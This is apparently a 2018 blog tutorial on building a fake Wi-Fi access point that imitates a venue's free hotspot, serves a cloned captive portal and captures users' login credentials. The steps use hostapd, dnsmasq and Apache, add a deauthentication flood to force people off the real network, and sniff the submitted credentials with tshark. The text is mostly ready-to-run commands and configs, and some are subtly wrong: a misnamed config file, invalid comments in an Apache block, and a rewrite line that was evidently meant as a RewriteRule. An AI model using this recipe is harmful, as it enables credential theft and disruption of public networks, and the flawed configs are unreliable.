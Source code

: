 ```yaml
---
layout: post
comments: true
title:  "Building a Fake Access Point and Using a Captive Portal to Get Login Credentials"
date:   2018-12-23 21:26:27
categories: Kali, DHCP, hostapd, DNS, Apache, Wireshark, HTML, Web Server, Penetration Testing
---
```


For this project I will presume that you have already cloned a captive portal of an open business network that you usually would see in airports, hotel lobbies, coffee shops, and other venues that offer free Wi-Fi hot spots. 

Also, I will presume you have a wireless adapter that supports monitor mode and packet injection with Kali Linux installed (or other penetration testing OS installed). Yayy! Now let's move on to the main course of this documentation.

Below I have documented the process on how to manually create a fake Access Point (AP). However, in order to build a fake AP, one needs to understand the main components of a wifi network. These components are:

1. A wifi card (router) in order to broadcast the signal of an AP. (I will use hostapd tool to broadcast the signal)
2. A DHCP server to give IP addresses to clients that connect to our AP. (I will use dnsmasq tool as a DHCP server)
3. A DNS server to handle DNS requests. (I will use dnsmasq tool as a DNS server)
* dnsmasq tool is rather convenient to use, since it can be used as a DHCP and DNS server at the same time!

* To install hostapd and dnsmasq, type the below command in terminal.  
```shell
apt-get install hostapd dnsmasq
```

1. After installing hostapd and dnsmasq, connect your wireless adapter (ifconfig to confirm this). Once adapter is connected do:
```shell
service network-manager stop
```
(Reason to stop network manager is so that it does not prevent the fake AP from broadcasting a wifi signal)

2. Next, we should enable IP forwarding so that packets can flow through the computer without being dropped. Not only that, we must also delete any IP table rules that might interfere with what we are trying to achieve. Hence, the below commands must be entered in the terminal to clear any firewall rules that might be redirecting packets to somewhere else.
```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain
iptables -P FORWARD ACCEPT
```
(By default there should not be any IP table rules, however to be on the safe side, if a program modifies and adds IP tables rules then the fake AP will fail, hence the following commands are a precaution.)

3. Next, we will configure dnsmasq to be used as a DHCP server and DNS server. Here, copy the below code and save it in a file called dnsmasq.conf
```shell
#Set the wifi interface
interface=wlan0
#Set the ip range that can be given to clients
dhcp-range=10.0.0.10,10.0.0.100,8h
#Set the gateway IP address
dhcp-option=3,10.0.0.1
#Set dns server address
dhcp-option=6,10.0.0.1
#Redirect all requests to 10.0.0.1
address=/#/10.0.0.1
```
(The first line that says interface can be found by doing ifconfig and this interface is the one that you wireless adapter uses. The second line states that the range is from 10 to 100 and each ip can last for 8 hours. The third line states the IP of wlan0, usually the 1st IP is used for the the gateway/router and the same config is used for the fourth line. The fifth line states to redirect any request to router's IP)

4. In terminal type the following command to start DHCP server and DNS server.
```shell
dnsmasq -C /root/Downloads/fake-ap/dnsmasq.conf
```
(Note: make sure you change the above path to where you saved the dnsmasq.conf file)

5. Next, we will configure hostapd to start fake AP, in order to allow people to connect to it. Here, copy the below code and save it in a file called dnsmasq.conf
```shell
#Set wifi interface
interface=wlan0
#Set network name
ssid=FakeAP
#Set channel
channel=1
#Set driver
driver=nl80211
```
(Note: when you set the network name, make sure it has the same name as the captive portal and you can feel free to add a version to it like "FakeAP V2")

6. In terminal type the following command to start hostapd and to begin broadcasting a signal.
```shell
hostapd /root/Downloads/fake-ap/hostapd.conf -B
```
(Here, -B is used so that it will execute the above command in the background. Also, make sure you change the above path to where you saved the hostapd.conf file)

7. Next, we will configure wlan0 (or whatever interface that your running) to have an IP address of 10.0.0.1
```shell
ifconfig wlan0 10.0.0.1 netmask 255.255.255.0
```
(Note: change interface to the one you are using, in my case its wlan0. The reason we use 10.0.0.1 is because this is the ip address that is used by the dnsmasq.conf and all the requests is configured to go to this IP. Here, 255.255.255.0 address is the most common subnet mask used on computers connected to Internet Protocol (IPv4) networks. In our case the format would be 10.0.0.xxx where xxx will be the only part that would vary for every IP address in that network. Likewise if the subnet mask is 255.255.0.0 then the computer would assume that every IP address in that netwrok would be in the format of 10.0.xxx.xxx.)

8. Start Web server to launch the cloned captive portal. Hence, when the client clicks on the fake AP the captive portal web page is displayed.
```shell
service apache2 start
```

9. In this step, we will sniff and analyze login credentials that the user enters into the cloned captive portal. However, instead of waiting for client to connect to FakeAP we could use a deauthentication attack on the real captive portal network and lure clients into using the FakeAP. Hence, we will run the following deauthentication attack command in terminal.
```shell
aireplay-ng --deauth 100000 -a (mac address of AP) wlan0
```
Note: in order to find mac address of AP use airodump-ng as follows:
    ```shell
    airodump-ng --band a wlan0
    ```
    
10. By continously sending thousand of deauth packets... it will prevent the user from reconnecting back to the portal. Hence, they will be lured into using our fake captive portal. Now, we can start to sniff the login info either by using Ettercap or MITMF, but for this example I will use Tshark. 
```shell
tshark -i wlan0 -w wifisniff.cap
```
(Note: -i wlan0 is the interface used to sniff data which will be our wireless card and -w wifisniff.cap will be where I store all the sniffed data)

Once a client enters the credential, we can analyze the .cap file using Wireshark. Just simply type *wireshark* in terminal and filter out http and search for a POST request. Eventually you should find the clients credentials in the HTML form :)

<br><br>
**Update - Redirecting Requests to Captive Portal Login Page**

When a client first connects to a captive portal the system will send requests to a specific server depending on the system whether it runs on mac OS, Linux or Windows. If the system gets a response it was expecting then it will think that this is a normal network and it wont do anything.
    However, if the clients system does not get a response it was expecting, it will then think that the network is a captive portal and it will proceed to show the client the captive portal login page.

**Solution for the above issue**

1. Requests sent to www. websites have to be redirected to just the domain name (for example, google.com instead of www.google.com). Therefore, in order to achieve this we have to modify the apache configuration file.
To open the configuration file type the following in terminal:
```shell
leafpad /etc/apache2/sites-enabled/000-default.conf
```
(Note: I am using leafpad text editor to open the configuration file... feel free to use another text editor.)

2. In order to delete just the www part, we need to use rewrite rules to redirect www to just the domain name. In this case we will add a directory tag at the bottom of the configuration file.
    ```shell
    <Directory "/var/www/html">  <!-- /var/www/html is the location of where my website is stored-->
        RewriteEngine On         <!--enables rewrite engine-->
        RewriteBase /            <!--rewrite base is in web root-->
        RewriteCond %{HTTP_HOST} ^www\.(.*)$ [nc]   <!--rewrite condition works based on Regex-->
        RewriteRule ^(.*)$ http://%1/$1 [R=301,L]
    </Directory>
    ```
(Note: paste the above code, save and close text editor)

3. Restart apache web server in terminal.
```shell
service apache2 restart
```

4. After restarting web server and if you test out the FakeAP network, you will notice a web browser pop up. However, this browser will show a 404 error saying "Not Found" (the reason why a 404 error is showed is because the url is altered by the the system OS.) To fix this, we will configure the web server so that if a file is not found it will redirect the person to the home page. In our case it would be to redirect a 404 error to the cloned captive portal login page. So in terminal type the following command and feel free to use your preferred text editor:
```shell
leafpad /etc/apache2/sites-enabled/000-default.conf
```

5. On the top of the configuration file type in the following:
```html
ErrorDocument 404 /
```
(Note: Here / is used to redirect to web root) Don't close the text editor just yet... see next step!

6. Also, just to be on the safe side at the bottom of the configuration file inside the <Directory> tag we will put the following rewrite rules. This step is the same as the above step but it is used to make sure that it works with any smart phone.
```html
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond ^(.*)$ / [L,QSA]
```

7. Restart apache web server in terminal. Now, your page should pop up in a web browser when a client clicks on the FakeAP network.
```shell
service apache2 restart
```    
